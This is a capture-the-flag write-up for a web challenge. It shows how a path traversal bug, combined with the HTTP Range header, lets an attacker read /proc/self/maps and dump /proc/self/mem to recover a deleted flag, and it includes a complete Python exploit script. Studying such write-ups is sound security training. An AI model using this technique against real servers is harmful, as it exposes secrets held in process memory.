






# Home on the Range

Challenge category : web\
Description :
```
I wrote a custom HTTP server to play with obscure HTTP headers.

By Jonathan (@JBYoshi on discord)


Unlock Hint for 0 points
If it seems like something's missing, that's completely intentional; you should be able to figure out why it's missing and where it currently is. You don't need to do any brute force guessing to figure out what that missing thing is.
```

The challenge is a simple webserver that responds only to get requests, after some initial testing and taking a look at the [SOURCE](./src/server.py) , I noticed that it is vulnerable to path traversal


In the source we see the path of the flag.txt hardcoded but if we try to send an http request it will give us 404 status code, because the file does not exist it is removed by the instruction : `os.remove(FLAG_PATH)` , so the flag is stored in a variable `the_flag`



 therefore the only way to read it is to analyze the process memory and to do this we use path traversal to navigate to /proc/self/...

First we take a look at /proc/self/maps ([docs](https://www.baeldung.com/linux/proc-id-maps)) that is a "symlink" to the /proc/$PID/maps .
Each row in /proc/$PID/maps describes a region of contiguous virtual memory in a process or thread. Each row has the following fields:



then we can use the obtained memory address ranges to read memory regions, sending an http request to /proc/self/mem ([docs](https://unix.stackexchange.com/a/6302)) with RANGE header

looking at the [SOURCE](./src/server.py) we notice that the server accepts the RANGE header ([Range header docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Range))
```
The Range HTTP request header indicates the parts of a resource that the server should return. Several parts can be requested at the same time in one Range header, and the server may send back these ranges in a multipart document. If the server sends back ranges, it uses the 206 Partial Content status code for the response. If the ranges are invalid, the server returns the 416 Range Not Satisfiable error.
```




So to "dump" the entire process memory I used this python [script](./src/exploit.py) : 

```python

import requests
import socket

def send_http_request(host, port, request): # we use Socket module instead of Request module because the HTTP response has a Content-Length: 0 so Request ignores the content of the response
    
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
        client_socket.connect((host, port))

        client_socket.sendall(request.encode())
        response = b''
        while True:
            part = client_socket.recv(4096)
            if not part:
                break
            response += part
        
        return response.decode()
    
    finally:
        client_socket.close()


def read_mem_range(start, end):
    url = "http://localhost:3000/../../../../../../../../../../../../../proc/self/mem"
    headers = {
        "Host": "localhost:3000",
        "Range": f"bytes={start}-{end}",
        "Connection": "close"
    }
    s = requests.Session()
    r = requests.Request(method='GET',url=url, headers=headers)
    prep = r.prepare()
    prep.url = url 
   
    response=s.send(prep)
    return response.content

def main():
    host = "localhost"
    port = 3000
    http_request = "GET /../../../../../../../../../../../../../proc/self/maps HTTP/1.1\r\nHost: localhost:3000\r\nConnection: close\r\n\r\n"
    response = send_http_request(host, port, http_request)
    content=response.split("\r\n\r\n")[1] # Skip HTTP headers
    if content:
        lines = content.split('\n')  
        ranges = [line.split()[0] for line in lines if line.strip()]  # Extract memory ranges
        dec_ranges = [f"{int(start, 16)}-{int(end, 16)}" for start, end in (range_.split('-') for range_ in ranges)]

        # Read memory for each range
        for range_ in dec_ranges:
            start, end = range_.split('-')
            mem_content = read_mem_range(start, end)
            if mem_content:
                print(mem_content.decode(errors='ignore'))  # Decode memory content to string
            else:
                #print(f"Failed to read memory range: {range_}")
                print("\n")
    else:
        print(f"Failed to retrieve /proc/self/maps: {response.status_code}")

if __name__ == "__main__":
    main()


```

Let's start the script and redirect the output to a file `python exploit.py > output.txt`
now in the `output.txt` file we have the dumped contents of the memory in raw bytes, we can pipe it with `strings` and `grep` to extract the flag which we know has the format `flag{...}`  (in my case because I started the server locally)
